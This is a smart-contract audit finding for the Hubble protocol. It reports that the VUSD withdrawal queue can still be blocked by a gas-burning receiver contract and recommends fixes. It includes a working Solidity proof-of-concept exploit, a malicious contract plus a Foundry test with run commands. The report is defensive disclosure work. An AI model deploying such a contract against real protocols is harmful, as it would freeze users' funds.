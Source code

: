 p12473

high

# ProcessWithdrawals is still DOS-able

## Summary

[DOS on process withdrawals](https://github.com/code-423n4/2022-02-hubble-findings/issues/119) were reported in the previous code4rena audit however the fix does not actually stop DOS, it only makes it more expensive. There is a much cheaper way to DOS the withdrawal queue - that is by specifying the `usr` to be a smart contract that consumes all the gas. 

## Vulnerability Detail

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.9;
import "./Utils.sol";

contract MaliciousReceiver {
    uint256 public gas;
    receive() payable external {
        gas = gasleft();
        for(uint256 i = 0; i < 150000; i++) {} // 140k iteration uses about 28m gas. 150k uses slightly over 30m.
    }
}

contract VUSDWithReceiveTest is Utils {
    event WithdrawalFailed(address indexed trader, uint amount, bytes data);

    function setUp() public {
        setupContracts();
    }

    function test_CannotProcessWithdrawals(uint128 amount) public {
        MaliciousReceiver r = new MaliciousReceiver();

        vm.assume(amount >= 5e6);
        // mint vusd for this contract
        mintVusd(address(this), amount);
        // alice and bob also mint vusd
        mintVusd(alice, amount);
        mintVusd(bob, amount);

        // withdraw husd
        husd.withdraw(amount);      // first withdraw in the array
        vm.prank(alice);
        husd.withdraw(amount);
        vm.prank(bob);              // Bob is the malicious user and he wants to withdraw the VUSD to his smart contract
        husd.withdrawTo(address(r), amount);

        assertEq(husd.withdrawalQLength(), 3);
        assertEq(husd.start(), 0);

        husd.processWithdrawals();  // This doesn't fail on foundry because foundry's gas limit is way higher than ethereum's. 

        uint256 ethereumSoftGasLimit = 30_000_000;
        assertGt(r.gas(), ethereumSoftGasLimit); // You can only transfer at most 63/64 gas to an external call and the fact that the recorded amt of gas is > 30m shows that processWithdrawals will always revert when called on mainnet. 
    }

    receive() payable external {
        assertEq(msg.sender, address(husd));
    }
}
```

Copy and paste this file into the test/foundry folder and run it.

The test **will not fail** because foundry has a [very high gas limit](https://book.getfoundry.sh/reference/config/testing?#gas_limit) but you can see from the test that the amount of gas that was recorded in the malicious contract is higher than 30m (which is the [current gas limit on ethereum](https://ethereum.org/en/developers/docs/gas/#:~:text=Block%20size,-Before%20the%20London&text=The%20London%20Upgrade%20introduced%20variable,2x%20the%20target%20block%20size)). If you ran the test by specifying the —gas-limit i.e. `forge test -vvv --match-path test/foundry/VUSDRevert.t.sol --gas-limit 30000000` The test will fail with `Reason: EvmError: OutOfGas` because there is not enough gas to transfer to the malicious contract to run 150k iterations.

## Impact

Users will lose their funds and have their VUSD burnt forever because nobody is able to process any withdrawals.

## Code Snippet

https://github.com/hubble-exchange/hubble-protocol/blob/d89714101dd3494b132a3e3f9fed9aca4e19aef6/contracts/VUSD.sol#L65-L85

## Tool used

Manual Review

## Recommendation

From best recommendation to worst

1. Remove the queue and withdraw the assets immediately when `withdraw` is called.
2. Allow users to process withdrawals by specifying the index index
3. Allow the admin to remove these bad withdrawals from the queue
4. Allow the admin to adjust the start position to skip these bad withdrawals.